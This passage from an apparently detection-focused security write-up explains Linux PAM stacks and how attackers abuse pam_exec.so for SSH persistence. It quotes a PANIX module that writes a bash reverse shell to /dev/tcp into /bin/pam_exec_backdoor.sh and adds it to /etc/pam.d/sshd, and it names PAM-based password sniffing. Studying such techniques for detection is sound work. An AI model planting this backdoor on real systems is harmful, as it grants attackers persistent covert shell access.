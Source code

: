 * The `auth` keyword indicates that the module operates during the authentication phase.  
* Control flags, like `[success=1 default=ignore]`, specify how PAM interprets the module's result. For example, `success=1` skips the next module if the current one succeeds.  
* The `requisite` flag immediately denies authentication if the module fails:  
  * `auth requisite pam_deny.so`  
* The `required` flag ensures the module must succeed for authentication to proceed, though subsequent modules in the stack will still execute:  
  * `auth required pam_permit.so`

Modules such as `pam_unix.so` handle traditional UNIX authentication by validating user credentials against `/etc/shadow`. Together, these components define the authentication process and dictate how the system responds to various conditions. For more information and examples, visit the [pam.d man page](https://linux.die.net/man/5/pam.d).

One way of abusing this mechanism is by leveraging the `pam_exec.so` module to execute an arbitrary script upon authentication through `/etc/pam.d/sshd`. By providing the path to a backdoor script on the host system, we can ensure that our backdoor is executed on every successful SSH authentication. [Group-IB](https://www.group-ib.com/) wrote about this technique in a recent publication dubbed “[*The Duality of the Pluggable Authentication Module (PAM)*](https://www.group-ib.com/blog/pluggable-authentication-module/)”.

A second method involves the modification of `/etc/pam.d/common-auth` for Debian-based systems or `/etc/pam.d/sshd` for Fedora-based systems to log user credentials. This technique was earlier discussed in [Wunderwuzzi’s blog](https://embracethered.com/blog/) called “[*Post Exploitation: Sniffing Logon Passwords with PAM*](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/)”. While capturing credentials isn't technically a persistence mechanism, it enables ongoing access to a host by leveraging stolen credentials.

In the next section we will take a look at how to implement arbitrary command execution through `pam_exec.so` using PANIX.

### Persistence through T1556.003 - Pluggable Authentication Modules: pam_exec.so

To better understand the technique, we will take a look at the [setup_pam.sh](https://github.com/Aegrah/PANIX/blob/main/modules/setup_pam.sh) PANIX module. 

```
echo -e "#!/bin/bash\nnohup setsid /bin/bash -c '/bin/bash -i >& /dev/tcp/$ip/$port 0>&1' &" > /bin/pam_exec_backdoor.sh

chmod 700 /bin/pam_exec_backdoor.sh

pam_sshd_file="/etc/pam.d/sshd"
pam_line="session optional pam_exec.so seteuid /bin/pam_exec_backdoor.sh"
```

The first step is to create the backdoor script to execute, this can be any C2 beacon, reverse shell or other means of persistence. PANIX creates a simple reverse shell and grants it execution permissions. Once the backdoor in `/bin/pam_exec_backdoor.sh` is in place, the `/etc/pam.d/sshd` file is modified. The `session` keyword ensures the script runs during user session setup or teardown, while `seteuid` ensures the script runs with the effective user ID (`eUID`) of the authenticated user instead of root.

Since the detection methods for the password harvesting module are quite similar to those of the backdoor module, we will focus on discussing the backdoor module in detail. You are encouraged to explore the [password-harvesting module](https://github.com/Aegrah/PANIX/blob/7a9cf39b35b40ee64bfe6b510f685003ebc043ae/modules/setup_pam.sh#L257) on your own\!
